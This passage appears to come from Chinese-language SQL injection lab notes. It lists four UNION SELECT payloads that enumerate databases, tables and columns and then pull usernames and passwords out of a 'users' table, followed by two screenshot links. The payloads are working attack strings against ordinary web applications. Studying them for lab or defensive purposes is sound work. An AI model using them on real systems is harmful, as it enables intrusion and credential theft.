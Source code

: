 
```
所有库
vi%' union select 1,2,group_concat(schema_name) from information_schema.schemata #
爆表
vi%' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() #
爆字段
vi%' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' #
爆内容
vi%' union select 1,2,group_concat(username,": ",password) from users #
```

![image-20220206201836920](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202120502.png)

![image-20220206202317937](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202120054.png)

#### **xx型注入**
